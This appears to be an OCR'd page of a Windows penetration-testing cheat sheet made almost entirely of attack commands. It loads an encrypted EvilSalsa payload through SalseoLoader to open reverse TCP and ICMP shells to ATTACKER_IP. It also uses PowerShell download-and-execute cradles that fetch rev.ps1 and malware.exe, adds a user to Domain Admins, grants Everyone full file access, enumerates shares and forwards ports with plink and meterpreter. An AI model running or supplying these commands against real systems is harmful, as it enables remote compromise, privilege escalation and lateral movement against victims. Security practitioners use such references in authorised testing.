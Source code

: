      EvilSalsa

    #Preparing payloads
    python EncrypterAssembly/encrypterassembly.py EvilSalsa.dll supersecretpass123 evilsalsa.dll.txt
    EncrypterAssembly.exe EvilSalsa.dll supersecretpass123 evilsalsa.dll.txt
    #Executing payload
    SalseoLoader.exe password http://ATTACKER_IP/evilsalsa.dll.txt reversetcp ATTACKER_IP 9001
    # Reverse icmp shell
    python icmpsh_m.py "ATTACKER_IP" "VICTIM_IP"
    SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp ATTACKER_IP

Miscellaneous
     Changing Permissions of a file

    icacls text.txt /grant Everyone:F

     Downloading files

    IEX (New-Object System.Net.WebClient).DownloadString("http://ATTACKER_IP/rev.ps1")
    (New-Object System.Net.WebClient).DownloadFile("http://ATTACKER_SERVER/malware.exe", "C:\Windows\Temp\malware.exe")
    Invoke-WebRequest "http://ATTACKER_SERVER/malware.exe" -OutFile "C:\Windows\Temp\malware.exe"

     Adding user to Domain admins

    Add-DomainGroupMember -Identity 'Domain Admins' -Members morph3 -Verbose

      Base64 Decode

    certutil -decode foo.b64 foo.exe

      Network sharing

    # Local share
    net share
    wmic share get /format:list
    # Remote share
    net view
    net view \\dc.ecorp.foo /all
    wmic /node: dc.ecorp.foo share get
    # Mounting share
    net use Z: \\127.0.0.1\C$ /user:morph3 password123

      Port Forwarding

    # Port forward using plink
    plink.exe -l morph3 -pw pass123 192.168.1.56 -R 8080:127.0.0.1:8080
    # Port forward using meterpreter
    portfwd add -l attacker-port -p victim-port -r victim-ip
    portfwd add -l 3306 -p 3306 -r 192.168.1.56
